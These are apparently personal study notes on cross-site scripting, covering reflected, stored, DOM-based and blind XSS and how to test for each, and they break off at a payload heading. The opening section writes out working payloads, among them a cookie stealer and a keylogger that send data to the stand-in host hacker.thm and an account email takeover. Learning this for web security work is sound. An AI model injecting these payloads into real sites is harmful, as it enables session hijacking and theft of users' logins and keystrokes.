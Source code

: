 
In XSS, the payload is the JavaScript code we wish to be executed on the targets computer. There are two parts to the payload, the intention and the modification.

**Examples**

- **Proof Of Concept:**
	This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an alert box to pop up on the page with a string of text, for example:
	
	`<script>alert('XSS');</script>`

- **Session Stealing:**
	Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.
	
	`<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`

- **Key Logger:**
	The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.
	
	`<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`

- **Business Logic:**
	This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called `user.changeEmail()`. Your payload could look like this:
	
	`<script>user.changeEmail('attacker@hacker.thm');</script>`

## Reflected XSS  

Reflected XSS happens when user-supplied data in an HTTP request is included in the webpage source without any validation.

- **Example Scenario:**  
A website where if you enter incorrect input, an **error** message is displayed. The content of the **error** message gets taken from the **error** **parameter** in the query string and is built directly into the page source.
![[Pasted image 20240605235939.png]]

The application doesn't check the contents of the **error** parameter, which allows the attacker to insert malicious code.
![[Pasted image 20240606000022.png]]

**Flow:**
![[Pasted image 20240606000041.png]]

- **Potential Impact:**  
The attacker could send links or embed them into an iframe on another website containing a JavaScript payload to potential victims getting them to execute code on their browser, potentially revealing session or customer information.

**How to test for Reflected XSS:**  
	You'll need to test every possible point of entry; these include:
		- Parameters in the URL Query String
		- URL File Path
		- Sometimes HTTP Headers (although unlikely exploitable in practice)

## **Stored XSS**

As the name infers, the XSS payload is stored on the web application (in a database, for example) and then gets run when other users visit the site or web page.

- **Example Scenario:**  
A blog website that allows users to post comments. Unfortunately, these comments aren't checked for whether they contain JavaScript or filter out any malicious code. If we now post a comment containing JavaScript, this will be stored in the database, and every other user now visiting the article will have the JavaScript run in their browser.

**Flow:**
![[Pasted image 20240606000321.png]]

- **Potential Impact:**  
The malicious JavaScript could redirect users to another site, steal the user's session cookie, or perform other website actions while acting as the visiting user.

**How to test for Stored XSS:**  
	You'll need to test every possible point of entry where it seems data is stored and then shown back in areas that other users have access to; a small example of these could be:  
		- Comments on a blog
		- User profile information  
		- Website Listings  

Sometimes developers think limiting input values on the client-side is good enough protection, so changing values to something the web application wouldn't be expecting is a good source of discovering stored XSS, for example, an age field that is expecting an integer from a dropdown menu, but instead, you manually send the request rather than using the form allowing you to try malicious payloads.

## **DOM Based XSS**

DOM stands for **D**ocument **O**bject **M**odel and is a programming interface for HTML and XML documents. It represents the page so that programs can change the document structure, style and content. A web page is a document, and this document can be either displayed in the browser window or as the HTML source. A diagram of the HTML DOM is displayed below:

		![[Pasted image 20240606000611.png]]

- **Exploiting the DOM**:
DOM Based XSS is where the JavaScript execution happens directly in the browser without any new pages being loaded or data submitted to backend code. Execution occurs when the website JavaScript code acts on input or user interaction.

- **Example Scenario:**  
The website's JavaScript gets the contents from the `window.location.hash` parameter and then writes that onto the page in the currently being viewed section. The contents of the hash aren't checked for malicious code, allowing an attacker to inject JavaScript of their choosing onto the webpage.

- **Potential Impact:** 
Crafted links could be sent to potential victims, redirecting them to another website or steal content from the page or the user's session.

- **How to test for Dom Based XSS:**
DOM Based XSS can be challenging to test for and requires a certain amount of knowledge of JavaScript to read the source code. You'd need to look for parts of the code that access certain variables that an attacker can have control over, such as "**window.location.x**" parameters.
	When you've found those bits of code, you'd then need to see how they are handled and whether the values are ever written to the web page's DOM or passed to unsafe JavaScript methods such as `eval()`.


## **Blind XSS**

Blind XSS is similar to a **Stored XSS** that your payload gets stored on the website for another user to view, but in this instance, you can't see the payload working or be able to test it against yourself first.

- **Example Scenario:**  
A website has a contact form where you can message a member of staff. The message content doesn't get checked for any malicious code, which allows the attacker to enter anything they wish. These messages then get turned into support tickets which staff view on a private web portal.

- **Potential Impact:**  
Using the correct payload, the attacker's JavaScript could make calls back to an attacker's website, revealing the staff portal URL, the staff member's cookies, and even the contents of the portal page that is being viewed. Now the attacker could potentially hijack the staff member's session and have access to the private portal.

- **How to test for Blind XSS:**
When testing for Blind XSS vulnerabilities, you need to ensure your payload has a call back (usually an HTTP request). This way, you know if and when your code is being executed.
	A popular tool for Blind XSS attacks is [XSS Hunter Express](https://github.com/mandatoryprogrammer/xsshunter-express). Although it's possible to make your own tool in JavaScript, this tool will automatically capture cookies, URLs, page contents and more.

## **Payload**
The payload is the JavaScript code we want to execute either on another user's browser or as a proof of concept to demonstrate a vulnerability in a website.

**Level One:**
